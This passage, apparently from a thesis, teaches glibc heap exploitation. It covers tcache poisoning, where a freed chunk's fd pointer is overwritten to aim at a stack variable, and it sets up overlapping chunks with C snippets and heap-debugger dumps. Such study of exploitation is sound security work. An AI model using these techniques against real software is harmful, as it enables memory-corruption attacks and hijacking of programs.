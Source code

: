 \documentclass{masterthesis}
\begin{document}
The above procedure has another result too, now we have two chunks that overlap too. For the rest of the attack, we perform a tcach poisoning. First, define a victim and overwrite the fd pointer in a way pointing to the target, then two allocations. The last allocation has control over the target

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *b = malloc(0x120);
b[0x120/8-2] = (long)stack_var;
malloc(0x100);
intptr_t *c = malloc(0x100);
\end{lstlisting}

 \begin{figure}[h!]
  \caption{LIBC}
\end{figure}


\section{ Overlapping chunks}
The goal is to have two chunks that write data in one of them and overwrite the other one data. We discuss this attack on a sample, first lest start 3 chunk of memory :
\begin{lstlisting}[language=c,frame=tlrb]
p1 = malloc(0x100 - 8);
p2 = malloc(0x100 - 8);
p3 = malloc(0x80 - 8);
\end{lstlisting}
\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
  [0x0000555555559010   31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31  1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
  [0x0000555555559110   78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00  x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
  [0x0000555555559210   33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33  3333333333333333]
\end{lstlisting}

Now lets free() the second chunk, As we discuss, This chunk add to the unsorted bin at first, then, It can be used for future allocation :
\begin{lstlisting}[language=c,frame=tlrb]
free(p2).
\end{lstlisting}

\begin{lstlisting}[frame=tlrb]
unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
  Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)

Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
  [0x0000555555559010   31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31  1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
  [0x0000555555559110   78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00  x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
  [0x0000555555559210   33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33  3333333333333333]
Chunk(addr=0x555555559290, size=0x20d80, flags=PREV_INUSE)  top chunk
\end{lstlisting}
\end{document}
